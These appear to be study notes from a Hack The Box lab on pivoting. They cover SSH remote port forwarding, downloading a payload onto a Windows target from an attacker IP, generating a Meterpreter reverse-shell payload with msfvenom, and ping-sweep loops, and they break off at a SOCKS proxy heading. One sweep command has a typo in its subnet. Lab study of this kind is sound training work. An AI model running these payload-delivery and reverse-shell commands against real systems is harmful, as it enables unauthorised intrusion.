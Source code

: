 #### Transferring Payload to Pivot Host

```shell
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```

#### Downloading Payload on the Windows Target
```powershell
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

`SSH remote port forwarding` to forward connections from the Ubuntu server's port 8080 to our msfconsole's listener service on port 8000. We will use `-vN` argument in our SSH command to make it verbose and ask it not to prompt the login shell. The `-R` command asks the Ubuntu server to listen on `<targetIPaddress>:8080` and forward all incoming connections on port `8080` to our msfconsole listener on `0.0.0.0:8000` of our `attack host`.

```shell
alenn@htb[/htb]$ ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

![[Pasted image 20250210105235.png]]

# Meterpreter Tunneling & Port Forwarding

#### Creating Payload for Ubuntu Pivot Host

```shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080
```
after getiing shell on pivot host we can run attacks from our attacker host

```shell
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23

[*] Performing ping sweep for IP range 172.16.5.0/23
```

#### Ping Sweep For Loop on Linux Pivot Hosts

```shell
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```

###### in cmd
```cmd 
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```

###### in pwsh 
```powershell
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```

#### Configuring MSF's SOCKS Proxy
